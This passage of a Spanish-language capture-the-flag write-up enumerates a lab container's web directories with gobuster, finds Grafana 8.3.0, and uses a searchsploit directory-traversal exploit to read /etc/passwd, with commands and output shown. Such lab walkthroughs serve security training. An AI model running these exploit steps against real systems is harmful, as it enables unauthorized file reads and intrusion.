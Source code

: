 ```bash
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/maintenance.html     (Status: 200) [Size: 63]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Probamos a ver si encontramos algo en la página **/maintenance.html**, que es la única que llama la atención y vemos que hay un mensaje que tendremos en cuenta cuando tengamos acceso a la máquina.

![move](https://github.com/TBrux/DOCKERLABS/assets/168732212/77343f47-7ba7-4fed-9786-a5c6f242363b)

Como no vemos nada más en el puerto 80, vamos a ver que encontramos en el puerto 3000, y nos encontramos con un panel de login de Grafana v8.3.0.

![grafana](https://github.com/TBrux/DOCKERLABS/assets/168732212/1d77444d-d660-4e2c-b079-4b5047c181f2)

## Explotación.
Vamos a comprobar si hay alguna exploit para esta versión de grafana.
```bash
❯ searchsploit grafana 8.3.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                                                                               | multiple/webapps/50581.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Ahora nos descargamos el exploit a nuestro ordenador.
```bash
searchsploit -m multiple/webapps/50581.py
```
```
❯ python3 50581.py -H http://172.17.0.2:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```